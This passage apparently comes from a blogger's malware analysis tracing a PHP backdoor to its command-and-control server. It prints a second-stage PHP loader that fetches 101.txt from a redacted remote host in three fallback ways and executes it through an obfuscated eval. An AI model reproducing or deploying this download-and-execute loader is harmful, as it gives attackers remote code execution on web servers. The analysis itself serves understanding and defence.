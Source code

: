 *Further note: I tried it without Tor (so brave). Seems like it might check that the request is actually being sent from an infected server that the C&C keeps track of. Will try to circumvent this somewhow*

## We need to go deeper

I thought then I could try altering the *version* parameter on the request to something different to what I found in the script. I set up a loop running from version 0 to 2000 and went to have lunch.  When I came back, most of them had returned the same: another PHP script.

	eval $try= true;
	if( function_exists("curl_init") ){
        $ch = curl_init('http://SOME_DOMAIN.com/101.txt');
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_TIMEOUT, 3);
        $ult = trim(curl_exec($ch));
        $try = false;
	}

	if ((ini_get('allow_url_fopen')) && $try) {
        $ult = trim(@file_get_contents('http://SOME_DOMAIN.com/101.txt'));
        $try = false;
	}

	if($try){
        $fp = fsockopen('SOME_DOMAIN.com', 80, $errno, $errstr, 30);
        if ($fp) {
            $out = "GET /101.txt HTTP/1.0\r\n";
            $out .= "Host: SOME_DOMAIN.com\r\n";
            $out .= "Connection: Close\r\n\r\n";
            fwrite($fp, $out);
            $ret = '';
            while (!feof($fp)) {
                $ret  .=  fgets($fp, 128);
            }
            fclose($fp);
            $ult = trim(substr($ret, strpos($ret, "\r\n\r\n") + 4));
        }
	}
	$xx = 'ev'.'al';
	$_FILE = create_function('$_',$xx.'($_);');  $_FILE($ult);%

As we can easily see, this script just tries several ways of retrieving *101.txt* from *SOME_DOMAIN.com* and then evaluates it. That domain seems to be an abandoned and spam-ridden Wordpress installation, the perfect target for setting up a distribution point for your payloads.  Again, I didn't publish it because this might be an innocent third party that I don't want blasted to oblivion :).

## The final boss

I went then to download all files from *0.txt* to *200.txt*. Most of them resulted in *404*s, except a few (namely 100,101,11,15 and 77). Let's work with 101.txt, the one involved in this specific attack. We will tackle it line-by-line and function-by-function.
